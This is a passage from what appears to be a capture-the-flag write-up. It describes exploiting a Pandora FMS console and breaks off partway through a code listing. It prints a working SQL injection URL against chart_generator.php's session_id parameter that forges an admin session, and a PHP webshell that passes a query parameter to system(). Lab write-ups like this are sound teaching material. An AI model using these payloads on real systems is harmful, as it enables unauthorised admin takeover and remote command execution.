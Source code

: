 We're authenticated as matt!

But how do I get the flag? 

According to this CVE, there is a potential RCE exploit that we can use, [quick google search leads to this tool](https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated).

By looking at the code, it is an SQL injection in the `session_id` parameter.

So we're going to paste the exploit URL into the browser:
```
http://localhost/pandora_console/include/chart_generator.php?session_id=' union SELECT 1,2,'id_usuario|s:5:"admin";' as data -- SgGO
```

Which when properly encoded becomes:

```
http://localhost/pandora_console/include/chart_generator.php?session_id=%27%20union%20SELECT%201,2,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20--%20SgGO
```

Now if you go back to the `pandora_console` page...

![](_attachments/pandora14.PNG)

We're now authenticated as admin. I'm just going to change the admin password in case I need to authenticate again in case.

I attempted uploading PHP reverse shells but it did not work, however the simple webshell like the one below worked:

`webshell.php`:
```html
<html>
 
	<body>
 
		<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
		 
		<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
		 
		<input type="SUBMIT" value="Execute">
		 
		</form>
		 
		<pre>
		 
			<?php
			 
			if(isset($_GET['cmd'])) {
			 
				system($_GET['cmd']);
			 
```